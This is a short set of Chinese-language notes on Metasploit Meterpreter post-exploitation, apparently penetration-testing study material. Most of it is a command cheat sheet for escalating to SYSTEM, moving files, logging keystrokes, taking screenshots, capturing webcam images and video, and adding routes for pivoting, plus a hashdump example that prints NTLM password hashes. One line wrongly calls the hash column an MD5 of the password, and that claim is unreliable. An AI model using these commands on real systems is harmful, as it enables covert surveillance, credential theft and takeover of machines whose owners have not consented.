 关于注册表，有必要提一下HKLM。HKLM是 Windows 操作系统注册表中的一个根键，它代表了 HKEY_LOCAL_MACHINE，其中 "HKEY" 表示 "Handle to a Key"（键的句柄），而 "LOCAL_MACHINE" 表示本地计算机的配置信息。HKLM 包含了计算机的硬件和操作系统的配置信息、安装的软件信息、用户和组的安全设置等等。
## 命令摘要
```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
 NT AUTHORITY\SYSTEM 這個帳號通常是隱藏的，就是傳說中的Windows至高無上權限帳號，跟Administrators擁有相同文件權限
 
```bash


pwd、ls、cd

getsystem	#获得系统管理员权限（要本地管理员权限运行）
sysinfo		#查看系统信息
idletim     #查看目标系统已运行时间
route		#查看目标机完整网络设置
shell		#进入目标机shell，exit退出she
background	#将meterpreter隐藏在后台

upload ./1.txt c:\\1.txt		#上传文件
download c:\1.txt ./			#下载文件
search -f *.txt -d c://			#搜索文件

keyscan_start	#启动键盘记录
keyscan_stop	#停止键盘记录
keyscan_dump	#转储键盘记录的内容
screenshot		#抓取截屏
webcam_list		#摄像头列表
webcam_snap		#摄像头拍照
webcam_stream	#抓取视频

#Kali-Linux下登录远程桌面
sudo rdesktop -f 目标IP

route add IP 子网掩码    #添加路由，先background
```
### Win密码
```bash
meterpreter > hashdump    #抓哈希密码，类型为NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b9ae0589c85dd1deae5ecdc7e0d3e0e9:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:b9ae0589c85dd1deae5ecdc7e0d3e0e9:::
jiayuan:1000:aad3b435b51404eeaad3b435b51404ee:e399f145335ed1bd481bf2f030b355ad:::
```
第3列是密码md5值

# 网络穿透

**拿到反向shell之后，获取目标网络信息**
